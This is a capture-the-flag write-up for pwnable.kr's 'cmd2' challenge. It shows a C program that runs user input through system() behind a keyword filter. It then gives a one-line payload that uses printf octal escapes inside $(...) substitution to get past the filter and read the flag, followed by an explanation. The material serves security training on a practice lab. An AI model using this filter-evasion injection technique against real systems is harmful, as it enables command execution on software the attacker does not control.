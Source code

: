 ## pwn : cmd2 [writeup]

Challenge from [pwnable.kr](https://pwnable.kr/)

**In this challenge** We have this code :

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

### READ MORE IN `cmd1` SOLUTION [HERE](https://github.com/amineichou/pwn/tree/main/cmd1)

### Solution
```bash
./cmd2 '$(printf "%bbin%bcat %s%s" "\57" "\57" "fla" "g")'
```

### Explanation

- `%b` tells printf to interpret escape sequences.
- `%s` is for inserting a string.

1. Each part of the command translates like this:

- `"\57"`: In octal, 57 is '/', so \57 translates to '/'.
- `"bin"`: Literal text.
- `"\57"` (again): Another '/'.
- `"cat"`: Literal text.
- `"fla"` and `"g"`: When combined, they form "flag".

Putting these together, printf will produce the following output:

```bash
/bin/cat flag
```

2. Command Substitution with $( ... ):

The $( ... ) syntax is command substitution in Bash, which runs the command inside and substitutes it with the output. So:

```bash
$(printf "%bbin%bcat %s%s" "\57" "\57" "fla" "g")
```

will replace itself with `/bin/cat flag`.

3. Running ./cmd2:

Finally, the entire command:

```bash
./cmd2 '$(printf "%bbin%bcat %s%s" "\57" "\57" "fla" "g")'
```

effectively becomes:

```bash
./cmd2 '/bin/cat flag'
```

end.